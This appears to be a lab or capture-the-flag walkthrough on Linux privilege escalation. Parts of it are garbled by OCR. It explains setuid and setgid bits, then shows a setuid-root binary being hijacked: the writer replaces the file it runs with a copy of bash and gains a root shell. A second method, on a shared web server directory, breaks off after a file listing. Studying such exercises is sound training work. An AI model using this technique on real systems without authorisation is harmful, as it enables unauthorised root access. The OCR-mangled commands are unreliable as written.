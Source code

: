  

METHOD 1 : USING FILE ACCESS RIGHTS 
Access Right Flags The Linux and u_njx access rights flags setuid and setgid (short for set user identity and set group identity)L1] allow users to run an executable with the tile system permissions of the executable's owner or group respectively and to change behaviour in directories. The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted.

 
File Modes The setuid and setgid bits are normally represented as the values: 4 for setuid 0 2 for setgid 0 In the high-order octal digit of the file mode. For example, 6711 has both the setuid and setgid bits (4 + 2 = 6) 6 - Access Right Flags 7 - Owner Permission of [ Read(4) + Write(2) + Execute(l ) ] 1 - Groups Permission of [ Read(0) + Write(O) + Execute(l) ] 1 - Others Permission of [ Read(0) + Write(0) + Execute(l) I

 

    Checking permissions : 

 
Is greetings welcome Is -1 total 24 1 root root 8296 Sep 22 2e18 greetings -rwsr-xr-x 1 root root 8344 Sep 22 2e18 welcome stat -c %A See -r-x------ root root regular file cat greetings cat: greetings: Permission denied stat -c "%a %A %U %G %F" 4755 -rwsr-xr-x root root regular file groups student student student g s welcome greetings welcome

 

    If word greeting is present inside welcome then we can have the root access: 

 
_ITM_deregisterTMCIoneTabIe __gmon_start _ITM_registerTMCIoneTabIe AWAVI AUATL greetings GCC: (Ubuntu 7.3.e-16ubuntu3) crtstuff.c deregister_tm_clones strings welcome /1ib64/1d-1inux-x86-64.so 2 libc.so.6 setuid system c xa finalize libc start main GLIBC 2.2. 5 3.0 7.

  

    Copy or remove greetings and using bash 

 
Is greetings welcome cp / bin/ bash greetings c p: cannot create regular file 'greetings' Permission denied rm grertings rm: remove write-protected regular file rm greetings rm: remove write-protected regular file Is welcome 'greetings' > 'greetings Is Y

 

    Copy bash into greetings and the run welcome using bash 

Is welcome cp / bin/ bash greetings student@attackdefense. greetin g s welcome . /welcome whoami root

 

WE HAVE ESCALATED PRIVILEGE USING WRONG PERMISSIONS TO FILES AND DIRECTORIES 

 

 

 

METHOD 2 : GIVEN A SHARED SERVER TO HOST ANY FILES AND WE HAVE CREDENTIALS 

 

    Go to /var/www/html as here all the shared files are stored. 

data about. php action.php admin admin. php category .php comments . php doc cd / var/www/html student@attackdefense•./var/www/html$ Is feed.php feed.php galleries i.php identification.php include index. html index.php install install.php languagel local nbm.php notification. password .php picture.php plugins php popuphelp.php profile. php qsearch.php random.php register. php search.php search rules.php tags.php template-extension themes tools upgrade. upgrade ws.php php

